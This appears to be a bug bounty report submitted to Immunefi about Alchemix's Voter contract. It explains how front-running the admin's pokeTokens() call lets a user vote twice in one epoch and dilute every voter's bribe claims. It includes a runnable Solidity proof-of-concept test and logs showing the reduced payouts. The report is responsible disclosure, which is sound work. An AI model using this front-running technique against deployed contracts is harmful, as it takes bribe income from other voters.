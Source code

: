 
# Front running of pokeTokens could lead to loss of portion of bribe claims to all voters of a gauge

Submitted on May 8th 2024 at 04:39:00 UTC by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30919

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
The `Voter.pokeTokens()` allows an admin to vote on behalf of any veALCX token owner for a given set of gauges. It is assumed that the purpose of the function is to provide automated regular voting services by the Alchemix system. The `pokeTokens()` does not check if the user already voted in the current Epoch. If the user did vote already, the next vote on the same epoch will affect the bribe accounting and diminish the bribes for all voters of the given gauge(s).

## Vulnerability Details
The `Voter.pokeToken()` calls `poke()` for each tokenId specificed. `poke()` calls `_vote()` which issues the vote to the given gauges. For each gauge specified `Bribe.deposit()` is called. `deposit()` increases (among other things): `totalSupply` and `totalVoting`. Those variables are then checkpointed and used when earned bribes are beeing calculated at `earned()`.

A malicious user can orchestrate a griefing attack, by front-running the `pokeTokens()` call. This will inflate the `totalVoting` which will diminish the amounts received by all users entitled to bribe claiming. 

## Impact Details
The bribes of all users on a given gauge will be diminished by proportional amount of the malicious user extra voting power.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L215



## Proof of Concept

Copy the following code to the `Voting.t.sol`:

```solidity
function testPokeTokensFrontrunning() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, 156 days, false);
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, 156 days, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        //voter.distribute();

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint[] memory pokeTokens = new uint[](1);
        pokeTokens[0] = tokenId1;

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        //console.log("Bribe lastEarned: ", )
        uint256 adminBribes;
        uint256 beefBribes;

        hevm.warp(block.timestamp + 6 days);

        // epoch 2
        hevm.warp(block.timestamp + nextEpoch);
        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        voter.distribute();
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
        adminBribes = IBribe(bribeAddress).earned(bal, tokenId1);
        beefBribes = IBribe(bribeAddress).earned(bal, tokenId2);
        console.log("[admin] earned bribes epoch 2: %d", adminBribes);
        console.log("[beef] earned bribes epoch 2: %d", beefBribes);

        // epoch 3
        hevm.warp(block.timestamp + nextEpoch);
        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        voter.distribute();

        // someone front runs the pokeTokens()
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        // admin calls pokeTokens
        hevm.prank(voter.admin());
        voter.pokeTokens(pokeTokens);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
        adminBribes = IBribe(bribeAddress).earned(bal, tokenId1);
        beefBribes = IBribe(bribeAddress).earned(bal, tokenId2);
        console.log("[admin] earned bribes epoch 3: %d", adminBribes);
        console.log("[beef] earned bribes epoch 3: %d", beefBribes);
        //console.log("voting power: %d", voter.maxVotingPower(tokenId1));

        // epoch 4
        hevm.warp(block.timestamp + nextEpoch);
        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        voter.distribute();
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
        adminBribes = IBribe(bribeAddress).earned(bal, tokenId1);
        beefBribes = IBribe(bribeAddress).earned(bal, tokenId2);
        console.log("[admin] earned bribes epoch 4: %d", adminBribes);
        console.log("[beef] earned bribes epoch 4: %d", beefBribes);

       
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        console.log("[admin] total bribes claimed: %d", ERC20(bal).balanceOf(admin));
        console.log("[beef] total bribes claimed: %d", ERC20(bal).balanceOf(beef));
    }
```

First run the code with the following lines commented (i.e. no front-running):
```solidity
// someone front runs the pokeTokens()
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
```
This will result with normal bribe accumulation by both users `admin` and `beef`: 
```
[PASS] testPokeTokensFrontrunning() (gas: 6499697)
Logs:
  [admin] earned bribes epoch 2: 500000000000000000
  [beef] earned bribes epoch 2: 500000000000000000
  [admin] earned bribes epoch 3: 1000000000000000000
  [beef] earned bribes epoch 3: 1000000000000000000
  [admin] earned bribes epoch 4: 1500000000000000000
  [beef] earned bribes epoch 4: 1500000000000000000
  [admin] total bribes claimed: 1500000000000000000
  [beef] total bribes claimed: 1500000000000000000
```
Once the lines above are enabled, the user effectively voted twice during same epoch and the following happens:
```
[PASS] testPokeTokensFrontrunning() (gas: 6640350)
Logs:
  [admin] earned bribes epoch 2: 500000000000000000
  [beef] earned bribes epoch 2: 500000000000000000
  [admin] earned bribes epoch 3: 1000000000000000000
  [beef] earned bribes epoch 3: 1000000000000000000
  [admin] earned bribes epoch 4: 1333333333333333333
  [beef] earned bribes epoch 4: 1333333333333333333
  [admin] total bribes claimed: 1333333333333333333
  [beef] total bribes claimed: 1333333333333333333
```
The amount is reduced, each user gets 33%, instead of 50% of the bribe share.
